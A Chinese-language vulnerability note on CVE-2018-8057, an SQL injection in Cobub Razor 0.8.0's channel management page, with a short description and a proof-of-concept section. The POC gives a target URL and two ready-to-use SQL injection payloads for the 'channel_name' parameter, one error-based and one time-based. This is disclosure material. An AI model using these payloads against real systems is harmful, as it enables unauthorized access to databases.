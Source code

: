 ```yaml
---
title: （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞
id: zhfly2850
---
```


# （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞

## 一、漏洞简介

Cobub Razor 0.8.0存在SQL注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在SQL注入漏洞。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

```
> http://www.0-sec.org/index.php?/manage/channel/addchannel  

> POST data:

>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1 `>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1` 
```